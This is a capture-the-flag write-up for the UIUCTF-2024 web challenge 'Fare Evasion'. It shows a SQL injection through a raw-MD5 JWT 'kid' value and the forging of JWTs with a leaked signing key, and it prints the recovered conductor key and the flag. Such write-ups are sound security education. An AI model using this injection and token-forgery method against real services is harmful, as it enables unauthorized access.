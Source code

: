 ```yaml
---
title: Fare Evasion
category: UIUCTF-2024
chall_description: 
points: 370
solves: 173
tags: web
date: 2024-06-29
comments: false
---
```

SIGPwny Transit Authority needs your fares, but the system is acting a tad odd. We'll let you sign your tickets this time!

[https://fare-evasion.chal.uiuc.tf/](https://fare-evasion.chal.uiuc.tf/)
---
# First looks
When pressing the "I'm a Passenger" button, we get this alert: 
```
Sorry passenger, only conductors are allowed right now. Please sign your own tickets.  
hashed _RòsÜxÉÄÅ´\ä secret: a_boring_passenger_signing_key_?
```
Examining the JavaScript function triggered by the button reveals the following:
```js
async function pay() {
	// i could not get sqlite to work on the frontend :(
	/*
		db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
		???????
	*/
	const r = await fetch("/pay", { method: "POST" });
	const j = await r.json();
	document.getElementById("alert").classList.add("opacity-100");
	// todo: convert md5 to hex string instead of latin1??
	document.getElementById("alert").innerText = j["message"];
	setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
}
```
This indicates that the hash we're getting in our error message is encoded in Latin1.  
# Creating a Malicious JWT
Looking at [this write up](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes) we see that the password `129581926211651571912466741651878684928` would trigger an SQL injection when hashed in md5 and encoded in Latin1. Now we have to figure out how to sign this password. 

Opening this in Burp Suite we can intercept the `/pay` post request triggered when you press the passenger button and get our current JWT. All we have to do is plug it and the secret (given to us in the error message) into https://jwt.io/, change the kid to "129581926211651571912466741651878684928", and change the JWT in the request we intercepted via Burp Suite. We then get the response:
```
Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?"
```
# Crafting A Conductor JWT
All we have to do is make a JWT signed with:
```
conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e
```
Once we do, we get the flag:

	uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
